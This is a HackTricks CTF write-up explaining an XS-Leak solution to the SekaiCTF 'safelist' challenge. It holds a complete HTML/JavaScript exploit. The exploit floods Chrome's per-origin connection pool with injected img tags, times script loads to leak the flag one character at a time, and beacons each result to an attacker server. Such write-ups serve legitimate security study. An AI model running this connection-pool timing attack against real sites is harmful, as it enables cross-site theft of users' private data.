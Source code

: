 # Connection Pool by Destination Example

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{% content-ref url="connection-pool-by-destination-example.md" %}
[connection-pool-by-destination-example.md](connection-pool-by-destination-example.md)
{% endcontent-ref %}

Let's see how this exploit work:

* The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
* Then, the attacker will **remove** the **note** with index 1.
* Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.&#x20;
  * If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

{% hint style="info" %}
Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code
{% endhint %}

```html
<html>
    <head>
        <script>
            const SITE_URL = 'https://safelist.ctf.sekai.team/';
            const PING_URL = 'https://myserver';
            function timeScript(){
                return new Promise(resolve => {
                    var x = document.createElement('script');
                    x.src = 'https://safelist.ctf.sekai.team/js/purify.js?' + Math.random();
                    var start = Date.now();
                    x.onerror = () => {
                        console.log(`Time: ${Date.now() - start}`); //Time request
                        resolve(Date.now() - start);
                        x.remove();
                    }
                    document.body.appendChild(x);
                });
            }

            add_note = async (note) => {
                let x = document.createElement('form')
                x.action = SITE_URL + "create"
                x.method = "POST"
                x.target = "xxx"

                let i = document.createElement("input");
                i.type = "text"
                i.name = "text"
                i.value = note
                x.appendChild(i)
                document.body.appendChild(x)
                x.submit()
            }
            
            remove_note = async (note_id) => {
                let x = document.createElement('form')
                x.action = SITE_URL+"remove"
                x.method = "POST"
                x.target = "_blank"

                let i = document.createElement("input");
                i.type = "text"
                i.name = "index"
                i.value = note_id
                x.appendChild(i)
                document.body.appendChild(x)
                x.submit()
            }
            
            const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
            // }zyxwvutsrqponmlkjihgfedcba_
            const alphabet = 'zyxwvutsrqponmlkjihgfedcba_'
            var prefix = 'SEKAI{xsleakyay';
            const TIMEOUT = 500;
            async function checkLetter(letter){
                // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
                // Depending whether we found flag's letter it will either load the images or not.
                // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
                const payload = `${prefix}${letter}` + Array.from(Array(78)).map((e,i)=>`<img/src=/js/purify.js?${i}>`).join('');
                await add_note(payload);
                await sleep(TIMEOUT);
                await timeScript();
                await remove_note(1); //Now, only the note with the flag or with the injection existsh
                await sleep(TIMEOUT);
                const time = await timeScript(); //Find out how much a request to the same origin takes
                navigator.sendBeacon(PING_URL, [letter,time]);
                if(time>100){
                    return 1;
                }
                return 0;
            }
            window.onload = async () => {
                navigator.sendBeacon(PING_URL, 'start');
                // doesnt work because we are removing flag after success.
                // while(1){
                    for(const letter of alphabet){
                        if(await checkLetter(letter)){
                            prefix += letter;
                            navigator.sendBeacon(PING_URL, prefix);
                            break;
                        }
                    }
                // }
            };            
            </script>            
    </head>
    <body>
    </body>
</html>

```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
